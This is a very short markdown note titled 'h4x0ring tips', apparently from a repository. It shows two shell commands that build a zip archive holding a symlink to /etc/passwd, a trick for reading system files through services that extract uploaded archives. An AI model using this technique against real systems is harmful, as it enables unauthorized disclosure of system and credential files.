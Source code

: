 # h4x0ring tips

symlinks in zips:

```sh
ln -s /etc/passwd foo.txt
zip --symlinks bar.zip foo.txt
```
